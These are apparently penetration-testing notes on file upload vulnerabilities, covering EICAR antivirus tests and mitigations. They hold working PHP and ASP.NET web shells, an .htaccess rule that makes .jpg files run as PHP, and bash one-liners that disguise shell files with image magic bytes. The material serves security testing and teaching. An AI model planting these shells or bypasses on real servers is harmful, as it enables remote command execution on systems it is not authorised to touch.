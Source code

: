 ```yaml
---
description: >-
  Upload vulnerabilities occur when an application does not properly validate or
  sanitise user-uploaded files
---
```


# Uploads

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## What is an Upload Vulnerability?

Upload vulnerabilities occur when an application does not properly validate or sanitize user-uploaded files. This can lead to unauthorized code execution, file inclusion, or other security breaches. Attackers may exploit these vulnerabilities to upload malicious files, such as web shells or configuration files, that can compromise the server or application.

### Example Tests for Upload Vulnerabilities

When performing a penetration test, you can use various payloads to test for upload vulnerabilities. Below are some example tests and methodologies to identify such vulnerabilities.

### **Example Payloads and Techniques**

1. **Uploading a Web Shell**
   *   **PHP Web Shell**: Upload a simple PHP file with the following content:

       ```php
       <?php system($_GET['cmd']); ?>
       ```
   *   **ASP Web Shell**: Upload an ASP file with the following content:

       {% code overflow="wrap" %}
       ```aspnet
       <% @Page Language="C#" %>
       <script runat="server">
       void Page_Load(object sender, EventArgs e) {
           if (Request.QueryString["cmd"] != null) {
               System.Diagnostics.Process.Start("cmd.exe", "/c " + Request.QueryString["cmd"]);
           }
       }
       </script>
       ```
       {% endcode %}
2.  **Uploading .htaccess File**

    *   To change the behaviour of the web server, you can upload an `.htaccess` file:

        ```bash
        AddType application/x-httpd-php .jpg
        ```

    This allows you to upload a PHP file disguised with a `.jpg` extension and have it executed as PHP.
3. **Bypassing File Type Restrictions**
   * **Polyglot Files**: Create a file that can be interpreted as both an image and a script. For example, an image with PHP code hidden in comments.
   * **MIME Type Bypass**: Change the MIME type of the file to bypass content-type checks.
4. **Using Alternate Extensions**
   * Upload files with different extensions that might still be interpreted as scripts by the server, such as `.phtml`, `.phar`, or `.shtml`.
5. **Configuration Files**
   * **Apache Configuration (.htaccess)**: Upload an `.htaccess` file to enable execution of other uploaded files.
   * **Tomcat Configuration**: Modify the `web.xml` file to include malicious servlet mappings.

## Testing Methodology

1. **Identify Upload Points**:
   * Locate file upload functionalities in the application, such as profile picture uploads, document uploads, etc.
2. **Attempt File Uploads**:
   * Use various payloads to attempt uploading different file types and observe the server's response.
   * Monitor the server's directory structure to see where files are stored and if they are accessible.
3. **Analyze Responses**:
   * Check if the uploaded files are executable by accessing them directly via a web browser.
   * Use intercepting proxies like Burp Suite or OWASP ZAP to manipulate file uploads and bypass client-side restrictions.
4. **Monitor Server Behavior**:
   * Observe any changes in server behaviour, error messages, or execution of uploaded files.

### References

* [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)
* [PayloadsAllTheThings - Jetty RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Jetty%20RCE/JettyShell.xml)
* [PayloadsAllTheThings - Extension ASP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.aspx)

## Remote code execution (RCE) using file uploads

If you need to quickly make RCE code from bash disguised as an image for an LFI/malicious upload.

{% code overflow="wrap" %}
```bash
echo -n -e '\xFF\xD8\xFF\xE0.' > shell.jpg
echo -n -e '\x89\x50\x4E\x47.' > shell.png
```
{% endcode %}

### Example bypass upload restrictions.&#x20;

<figure><img src="../../.gitbook/assets/1669794207400.jfif" alt=""><figcaption></figcaption></figure>

## Antivirus testing / sanitisation of files

Antivirus testing and file sanitization are crucial steps to ensure that uploaded files do not contain malicious content. By integrating antivirus solutions and file sanitization processes, you can prevent the upload of harmful files that could compromise your system.

### **EICAR Test Files**

EICAR (European Institute for Computer Antivirus Research) provides standard test files that can be used to test the effectiveness of antivirus software. These files are harmless and are designed to trigger antivirus alerts.

To test your antivirus and file sanitisation mechanisms, you can use a ZIP file containing EICAR test files. The ZIP file is password-protected to prevent accidental execution. The password for the ZIP file is "password".

**Download the ZIP file containing EICAR test files**:

{% file src="../../.gitbook/assets/EICAR-password-is-password.zip" %}

#### **Contents of the ZIP file**:

1. **eicar.com**: A standard EICAR test file.
2. **eicar (copy 1).txt**: A copy of the EICAR test file with a different name.
3. **eicar.exe**: The EICAR test file with an `.exe` extension.
4. **eicarfileupload.png**: A PNG image containing the EICAR test string.
5. **eicarfileupload.png\_original**: The original PNG image.
6. **eicar.jpeg**: The EICAR test file with a `.jpeg` extension.
7. **eicar.pdf**: The EICAR test file with a `.pdf` extension.
8. **eicar.perl**: The EICAR test file with a `.perl` extension.
9. **eicar.png**: The EICAR test file with a `.png` extension.
10. **eicar.py**: The EICAR test file with a `.py` extension.
11. **eicar.tar.gz**: The EICAR test file compressed in a `.tar.gz` archive.
12. **eicar.txt**: The standard EICAR test file in a `.txt` format.

#### **Example Tests**

1. **Upload the ZIP File**:
   * Upload the EICAR ZIP file to the application.
   * Check if the antivirus detects and blocks the upload.
2. **Extract and Scan**:
   * If the file is uploaded successfully, the server should extract the contents of the ZIP file.
   * The antivirus should scan the extracted files and block or quarantine any malicious content.
3. **Sanitization Process**:
   * Implement a sanitization process to clean or remove any detected threats.
   * Ensure the application notifies the user if their upload contained malicious content and was sanitized.

### Testing Methodology

1. **Identify Upload Points**:
   * Locate file upload functionalities in the application, such as profile picture uploads, document uploads, etc.
2. **Attempt File Uploads**:
   * Use various payloads to attempt uploading different file types and observe the server's response.
   * Monitor the server's directory structure to see where files are stored and if they are accessible.
3. **Analyse Responses**:
   * Check if the uploaded files are executable by accessing them directly via a web browser.
   * Use intercepting proxies like Burp Suite or OWASP ZAP to manipulate file uploads and bypass client-side restrictions.
4. **Monitor Server Behaviour**:
   * Observe any changes in server behaviour, error messages, or execution of uploaded files.

#### Conclusion

Upload vulnerabilities can lead to severe security breaches if not properly mitigated. Always ensure user inputs are sanitised and validated before processing. Implement proper file type checks, size limits, and use safe directories for storing uploaded files. Regular security testing and updates to the application code can help prevent such vulnerabilities.
